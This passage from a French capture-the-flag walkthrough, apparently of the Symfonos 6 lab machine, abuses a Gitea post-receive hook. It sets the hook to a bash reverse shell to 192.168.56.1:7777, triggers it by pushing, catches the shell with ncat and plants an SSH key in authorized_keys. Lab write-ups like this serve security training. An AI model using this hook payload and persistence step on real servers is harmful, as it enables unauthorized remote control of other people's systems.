```shellsession
$ git remote add origin http://192.168.56.117:3000/achilles/yolo.git
$ git push -u origin master
Énumération des objets: 3, fait.
Décompte des objets: 100% (3/3), fait.
Écriture des objets: 100% (3/3), 214 octets | 214.00 Kio/s, fait.
Total 3 (delta 0), réutilisés 0 (delta 0), réutilisés du pack 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://192.168.56.117:3000/achilles/yolo.git
 * [new branch]      master -> master
la branche 'master' est paramétrée pour suivre 'origin/master'.
```

Ensuite depuis `Gitea` il faut aller dans les `Settings` du projet, onglet `Git Hooks` et définir un `post-receive` avec ce code :

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.1/7777 0>&1 &
```

Retour en ligne de commande où je fais une modification et pousse le code :

```shellsession
$ echo "this is dope" > README.md 
$ git add .
$ git commit -m "trigger that"
[master f20c3b3] trigger that
 1 file changed, 1 insertion(+)
$ git push
Énumération des objets: 5, fait.
Décompte des objets: 100% (5/5), fait.
Écriture des objets: 100% (3/3), 255 octets | 255.00 Kio/s, fait.
Total 3 (delta 0), réutilisés 0 (delta 0), réutilisés du pack 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://192.168.56.117:3000/achilles/yolo.git
   6576b2c..f20c3b3  master -> master
```

J'obtiens alors mon reverse-shell sur le port 7777 :

```shellsession
$ ncat -l -p 7777 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 192.168.56.117.
Ncat: Connection from 192.168.56.117:53184.
bash: no job control in this shell
[git@symfonos6 yolo.git]$ id
uid=997(git) gid=995(git) groups=995(git)
[git@symfonos6 yolo.git]$ cd /home/git
[git@symfonos6 ~]$ cd .ssh
[git@symfonos6 .ssh]$ echo ssh-rsa AAAAB--- snip ---cT7Q== >> authorized_keys
```
